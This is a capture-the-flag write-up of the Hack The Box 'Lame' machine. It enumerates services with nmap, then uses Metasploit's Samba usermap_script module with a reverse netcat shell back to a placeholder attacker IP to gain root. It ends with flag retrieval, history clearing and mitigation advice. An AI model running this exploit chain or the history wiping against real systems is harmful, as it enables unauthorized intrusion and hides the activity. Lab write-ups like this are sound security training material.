










# HTB — Lame
**Difficulty:** Easy  
**Category:** Exploitation  
**Target:** `<target_IP>`  
**Author:** SveSec (edited)  
**Tools:** nmap, Metasploit  
**Result:** root (direct via Samba RCE)

---

## Table of Contents
- General Info
- Objectives
- Enumeration
- Exploitation
- Initial Shell
- Privilege Escalation
- Post-Exploitation Proof
- Cleanup
- Key Takeaways
- Conclusion

---

## General Info
- **Machine name:** Lame  
- **Platform:** Hack The Box  
- **OS:** Linux (Debian-based)  
- **Type:** Boot2Root (goal: user + root)

---

## Objectives
1. Identify entry points through enumeration.  
2. Identify and exploit a service vulnerability to gain a foothold.  
3. Obtain user and root flags and document the full attack chain.

---

## Enumeration

**Nmap scan**  
Command used:
  
    sudo nmap -sC -sV <target_IP>

Result (not exhaustive — relevant ports shown):

| Port | State | Service | Version |
|------|-------|---------|---------|
| 21   | open  | ftp     | vsftpd 2.3.4 |
| 22   | open  | ssh     | OpenSSH 4.7p1 |
| 139  | open  | netbios-ssn | Samba 3.X - 4.X |
| 445  | open  | netbios-ssn | Samba smbd 3.0.20-Debian |

- Anonymous FTP login allowed but contained nothing useful for exploitation.  
- Samba smbd `3.0.20` on 139/445 is the highest-priority attack surface.

Figure 1 – Nmap initial scan (sudo nmap -sC -sV).  

Figure 2 – FTP anonymous listing (no useful files).  

### SMB / Samba findings
- NetBIOS name: `lame`  
- OS: Unix (Samba 3.0.20-Debian)  
- `message_signing: disabled` (worth noting)  
- Samba 3.0.20 has public exploits/modules; focus shifted to Samba RCE vectors.

Figure 3 – SMB version and shares evidence (part 1).  

Figure 3b – SMB shares / additional output (part 2).  

---

## Exploitation

### 1) Search for Samba exploits in Metasploit
Start Metasploit and search:

    msfconsole
    search samba

Figure 4 – Metasploit search results for Samba modules.  

**Chosen module:** `exploit/multi/samba/usermap_script`  
- Disclosure Date: 2007-05-14  
- Rank: excellent  
- Description: Samba "username map script" Command Execution  
Rationale: Matches Samba 3.0.20, stable, and effective for remote command execution in this context.

### 2) Load exploit and review options
Commands used (example):

    use exploit/multi/samba/usermap_script
    show options

Figure 5 – Module options / show options.  

Key options to set:
- `RHOSTS = <target_IP>`
- `RPORT = 139` (or 445 as appropriate)
- `LHOST = <attacker_IP>`
- `LPORT = 4444` (default listener port)

Note: Metasploit default payload for this module may be `cmd/unix/reverse_netcat` (lightweight, reliable on old systems).

### 3) Set options and run exploit
Example config (replace placeholders):

    set RHOSTS <target_IP>
    set LHOST <attacker_IP>
    set LPORT 4444
    exploit

Figure 6 – Exploit execution (handler started, exploit sent).  

Expected output on success:

    Started reverse TCP handler on <attacker_IP>:4444
    Command shell session 1 opened (<attacker_IP>:4444 -> <target_IP>:xxxxx)

---

## Initial Shell

After the exploit, obtain and stabilize the shell.

Typical stabilization steps:

    python3 -c 'import pty; pty.spawn("/bin/bash")'
    export TERM=xterm

Figure 7 – Interactive shell / proof of shell access (root user shown later).  

---

## Privilege Escalation

**Observation:** The chosen Samba exploit yields direct command execution as a privileged user (in this case resulting in root). No additional local privilege escalation was necessary.

### Verification of privileges
Commands and masked outputs (professional masking applied):

    whoami
    # ➜ root

    id
    # ➜ uid=0(root) gid=0(root)

    hostname
    # ➜ lame

    uname -a
    # ➜ Linux lame 2.6.24-16-server ... i686 GNU/Linux

Figure 8 – Example of verified root shell / proof.  

---

## Post-Exploitation Proof

**Locate user flag**

    ls /home
    # ➜ ftp  makis  service  user

    cat /home/makis/user.txt
    # ➜ 07d078... (masked)

Figure 9 – User flag evidence (masked).  

**Locate root flag**

    ls /root
    # ➜ Desktop  reset_logs.sh  root.txt  vnc.log

    cat /root/root.txt
    # ➜ 469af1... (masked)

> Both flags retrieved and masked in the report for professionalism.

---

## Cleanup (recommended for lab hygiene)
Commands used to clean temporary artifacts (if any were created during exploitation):

    # remove any helper files (example)
    rm -f /tmp/find
    # clear history
    history -c
    exit

> Note: On production systems, cleanup policy differs and must follow authorization rules. This is a lab environment.

---

## Key Takeaways
- Legacy services such as Samba 3.0.20 present serious remote code execution risk.  
- Metasploit’s `usermap_script` is an effective module for this specific Samba misconfiguration.  
- Always replace real IPs with placeholders in reports: `<target_IP>`, `<attacker_IP>`.  
- Mask sensitive outputs (flags, hashes) in public writeups; keep raw evidence in private notes.  
- For mitigation: patch Samba, limit SMB exposure to trusted networks, enable message signing and monitoring.

---

## Conclusion
A straightforward chain led to full compromise:

1. Enumeration identified Samba `3.0.20` on `<target_IP>`.  
2. Metasploit `exploit/multi/samba/usermap_script` provided reliable RCE.  
3. Reverse shell established back to `<attacker_IP>`.  
4. Root achieved directly via the exploit; both user and root flags were found and documented (masked in this report).

This case reinforces the importance of removing legacy network services from internet-facing hosts, timely patching, and careful monitoring for exploitation attempts.

---
